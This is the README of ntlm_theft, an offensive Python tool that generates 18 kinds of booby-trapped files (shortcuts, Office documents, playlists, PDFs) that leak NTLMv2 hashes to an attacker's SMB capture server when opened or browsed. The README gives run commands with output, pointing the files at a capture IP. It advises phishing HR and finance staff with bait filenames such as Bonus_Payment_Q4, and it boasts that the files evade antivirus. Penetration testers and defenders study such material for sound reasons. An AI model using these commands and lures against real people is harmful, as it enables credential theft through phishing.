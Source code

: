 # ntlm_theft

A tool for generating multiple types of NTLMv2 hash theft files.

ntlm_theft is an Open Source Python3 Tool that generates 18 different types of hash theft documents. These can be used for phishing when either the target allows smb traffic outside their network, or if you are already inside the internal network. 

The benefits of these file types over say macro based documents or exploit documents are that all of these are built using "intended functionality". None were flagged by Windows Defender Antivirus on June 2020, and 14 of the 18 attacks worked on a fully patched Windows 10 host.  

ntlm_theft supports the following attack types:

* Browse to Folder Containing
	* .url – via URL field
	* .url – via ICONFILE field
	* .scf – via ICONFILE field (Not Working on Latest Windows)
	* autorun.inf via OPEN field (Not Working on Latest Windows)
	* desktop.ini - via IconResource field (Not Working on Latest Windows)
* Open Document
	* .xml – via Microsoft Word external stylesheet
	* .xml – via Microsoft Word includepicture field
	* .htm – via Chrome & IE & Edge img src (only if opened locally, not hosted)
	* .docx – via Microsoft Word includepicture field
	* .docx – via Microsoft Word external template
	* .docx – via Microsoft Word frameset webSettings
	* .xlsx - via Microsoft Excel external cell
	* .asx – via Windows Media Player playlist (Better, primary open)
	* .m3u – via Windows Media Player playlist (Worse, Win10 opens first in Groovy)
	* .jnlp – via Java external jar
	* .application – via any Browser (Must be served via a browser downloaded or won’t run)
* Open Document and Accept Popup
	* .pdf – via Adobe Acrobat Reader
* Click Link in Chat Program
	* .txt – formatted link to paste into Zoom chat


## Usecases (Why you want to run this)

ntlm_theft is primarily aimed at Penetration Testers and Red Teamers, who will use it to perform internal phishing on target company employees, or to mass test antivirus and email gateways. It may also be used for external phishing if outbound SMB access is allowed on the perimeter firewall.

I've found it useful while penetration testing to easily see what file types I have available to me, rather than spending time configuring a specific attack as would be used on red teaming engagements. You could send a .rtf or .docx file to the HR department, and a .xlsx spreadsheet doc to the finance department.

## Getting Started

These instructions will show you the requirements for and how to use ntlm_theft.

### Prerequisites

ntlm_theft requires Python3 and xlsxwriter:

```
pip3 install xlsxwriter
```

### Required Parameters

To start up the tool 4 parameters must be provided, an input format, the input file or folder and the basic running mode:

```
-g, --generate	: Choose to generate all files or a specific filetype
-s, --server 	: The IP address of your SMB hash capture server (Responder, impacket ntlmrelayx, Metasploit auxiliary/server/capture/smb, etc)
-f, --filename	: The base filename without extension, can be renamed later (eg: test, Board-Meeting2020, Bonus_Payment_Q4)
```

### Example Runs

Here is an example of what a run looks like generating all files:

```
# python3 ntlm_theft.py -g all -s 127.0.0.1 -f test
Created: test/test.scf (BROWSE)
Created: test/test-(url).url (BROWSE)
Created: test/test-(icon).url (BROWSE)
Created: test/test.rtf (OPEN)
Created: test/test-(stylesheet).xml (OPEN)
Created: test/test-(fulldocx).xml (OPEN)
Created: test/test.htm (OPEN FROM DESKTOP WITH CHROME, IE OR EDGE)
Created: test/test-(includepicture).docx (OPEN)
Created: test/test-(remotetemplate).docx (OPEN)
Created: test/test-(frameset).docx (OPEN)
Created: test/test.m3u (OPEN IN WINDOWS MEDIA PLAYER ONLY)
Created: test/test.asx (OPEN)
Created: test/test.jnlp (OPEN)
Created: test/test.application (DOWNLOAD AND OPEN)
Created: test/test.pdf (OPEN AND ALLOW)
Created: test/zoom-attack-instructions.txt (PASTE TO CHAT)
Generation Complete.
```

![Example Run](doc/example-run.png?raw=true "Example Run")


Here is an example of what a run looks like generating only modern files:

```
# python3 ntlm_theft.py -g modern -s 127.0.0.1 -f meeting
Skipping SCF as it does not work on modern Windows
Created: meeting/meeting-(url).url (BROWSE TO FOLDER)
Created: meeting/meeting-(icon).url (BROWSE TO FOLDER)
Created: meeting/meeting.rtf (OPEN)
Created: meeting/meeting-(stylesheet).xml (OPEN)
Created: meeting/meeting-(fulldocx).xml (OPEN)
Created: meeting/meeting.htm (OPEN FROM DESKTOP WITH CHROME, IE OR EDGE)
Created: meeting/meeting-(includepicture).docx (OPEN)
Created: meeting/meeting-(remotetemplate).docx (OPEN)
Created: meeting/meeting-(frameset).docx (OPEN)
Created: meeting/meeting-(externalcell).xlsx (OPEN)
Created: meeting/meeting.m3u (OPEN IN WINDOWS MEDIA PLAYER ONLY)
Created: meeting/meeting.asx (OPEN)
Created: meeting/meeting.jnlp (OPEN)
Created: meeting/meeting.application (DOWNLOAD AND OPEN)
Created: meeting/meeting.pdf (OPEN AND ALLOW)
Skipping zoom as it does not work on the latest versions
Skipping Autorun.inf as it does not work on modern Windows
Skipping desktop.ini as it does not work on modern Windows
Generation Complete.
```

Here is an example of what a run looks like generating only a xlsx file:

```
# python3 ntlm_theft.py -g xlsx -s 192.168.1.103 -f Bonus_Payment_Q4
Created: Bonus_Payment_Q4/Bonus_Payment_Q4-(externalcell).xlsx (OPEN)
Generation Complete.
```

## Future Updates

* Add another parameter to change path & file which is requested to user specified to further avoid detections.

## Authors

* **Jacob Wilkin** - *Research and Development*

## License

ntlm_theft
Created by Jacob Wilkin
Copyright (C) 2020 Jacob Wilkin
 
This program is free software: you can redistribute it and/or modify
it under the terms of the GNU General Public License as published by
the Free Software Foundation, either version 3 of the License, or
(at your option) any later version.

This program is distributed in the hope that it will be useful,
but WITHOUT ANY WARRANTY; without even the implied warranty of
MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
GNU General Public License for more details.

## Acknowledgments

* [Ired](https://ired.team/offensive-security/initial-access/t1187-forced-authentication)
* [Securify](https://www.securify.nl/blog/SFY20180501/living-off-the-land_-stealing-netntlm-hashes.html)
* [Pentestlab](https://pentestlab.blog/2017/12/18/microsoft-office-ntlm-hashes-via-frameset/)
* [deepzec](https://github.com/deepzec/Bad-Pdf/blob/master/badpdf.py)
* [rocketscientist911](https://github.com/rocketscientist911/excel-ntlmv2)
* [Osanda](https://osandamalith.com/2017/03/24/places-of-interest-in-stealing-netntlm-hashes/)
